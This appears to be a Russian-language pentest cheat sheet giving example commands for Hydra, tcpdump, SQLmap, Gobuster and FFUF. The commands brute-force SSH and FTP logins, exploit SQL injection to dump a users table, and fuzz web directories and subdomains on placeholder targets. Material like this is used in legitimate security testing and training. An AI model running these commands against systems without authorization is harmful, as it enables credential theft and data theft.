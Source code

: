 
## 🔹 Hydra

**Назначение:** Брутфорс паролей к сетевым сервисам.
**Примеры:**

```bash
hydra -l admin -P rockyou.txt ssh://192.168.1.10
hydra -L users.txt -P passwords.txt ftp://target.com
```

---

## 🔹 Wireshark

**Назначение:** Перехват и анализ сетевого трафика (GUI).
**CLI альтернатива:**

```bash
tcpdump -i any port 80
```

---

## 🔹 SQLmap

**Назначение:** Эксплуатация SQL-инъекций.
**Примеры:**

```bash
sqlmap -u "http://site.com/page.php?id=1" --batch
sqlmap -u "http://site.com/item?id=5" --dbs
sqlmap -u "http://site.com/item?id=5" -D testdb -T users --dump
```

---

## 🔹 Gobuster

**Назначение:** Брутфорс директорий, файлов и сабдоменов.
**Примеры:**

```bash
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
gobuster dns -d target.com -w subdomains.txt
```

---

## 🔹 FFUF

**Назначение:** Быстрый fuzzing веб-директорий/параметров.
**Примеры:**

```bash
ffuf -u http://target.com/FUZZ -w wordlist.txt
ffuf -u http://target.com/index.php?id=FUZZ -w nums.txt
```

---